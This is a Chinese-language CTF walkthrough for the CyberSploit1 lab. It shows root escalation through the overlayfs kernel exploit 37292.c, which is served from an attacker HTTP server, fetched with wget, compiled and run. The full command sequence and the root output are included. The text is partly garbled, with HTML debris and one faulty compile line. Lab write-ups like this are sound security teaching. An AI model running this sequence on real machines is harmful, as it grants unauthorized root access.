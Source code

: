 因为发行版本较老，若存在以下情况进行`overlayfsLinux Kernel Version`提权

|系统|版本
|------
|Linux Kernel Version|大于3.13.0小于3.19
|Ubuntu|Linux 15.04
|Ubuntu|Linux 14.10
|Ubuntu|Linux 14.10
|Ubuntu|Linux 12.04

##### 漏洞利用-内核overlayfs提权

> 
-  `msfconsole` -  `msf &amp;gt; searchsploit overlayfs` 


结合 `3.13.0-32`的版本信息选择2与3<img alt="" height="178" src="https://img-blog.csdnimg.cn/293414d592674a569e4fcba0b1f2d089.png" width="1080"/>

> 
-  `# 如果想查看msf对应的内容` -  `cat /usr/share/exploitdb/exploits/linux/local/37292.c` 


将文件保存在当前目录下，方便开启`http`服务

> 
-  `┌──(root㉿Kali)-[/home/bachang/CyberSploit1]` -  `└─# cp /usr/share/exploitdb/exploits/linux/local/37292.c ./shell.c` -   -  `┌──(root㉿Kali)-[/home/bachang/CyberSploit1]` -  `└─# ls` -  `hydra.restore shell.c` 


攻击机开启服务

> 
`1.sudo python3 -m http.server 80`


目标机器

> 
-  `# 首先到具有权限的目录下 如/tmp` -  `itsskv&lt;span&gt;@cybersploit-CTF&lt;/span&gt;:~$ cd /tmp` -  `# 下载` -  `itsskv&lt;span&gt;@cybersploit-CTF&lt;/span&gt;:/tmp$ wget http://192.168.45.220/shell.c` 


> 

-  `# 给权限` -  `itsskv&lt;span&gt;@cybersploit-CTF&lt;/span&gt;:/tmp$ chmod +x shell.c` -  `# 如果是c的需要进行编译` -  `itsskv&lt;span&gt;@cybersploit-CTF&lt;/span&gt;:/tmp$ gcc shell.c -o shell.c` -  `# 运行` -  `itsskv&lt;span&gt;@cybersploit-CTF&lt;/span&gt;:/tmp$ ./shell.c` -  `spawning threads` -  `mount #1` -  `mount ``#2` -  `child threads done` -  `/etc/ld.so.preload created` -  `creating shared library` -  `# whoami` -  `root` 


提权成功<img alt="" height="188" src="https://img-blog.csdnimg.cn/ea3cd46ba05e4bf8819de837deee2769.png" width="1080"/>

#### FLAG2获取
